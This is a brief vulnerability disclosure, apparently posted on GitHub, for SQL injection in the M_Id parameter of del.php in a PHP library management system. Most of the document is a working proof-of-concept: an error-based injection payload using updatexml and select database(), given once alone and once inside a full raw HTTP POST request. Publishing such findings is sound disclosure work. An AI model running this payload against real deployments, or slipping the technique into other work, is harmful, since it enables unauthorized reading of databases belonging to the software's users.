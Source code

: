 # Library Management System v1.0 by kingbhob02 has SQL injection

vendors: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /LMS/librarian/del.php

Vulnerability location: /LMS/staff/del.php, M_Id

[+] Payload: delete=&M_Id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> M_Id

```sql
POST /LMS/librarian/del.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

delete=&M_Id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/180453976-94209e90-28e2-45de-b49e-e2d3d8d462ef.png)
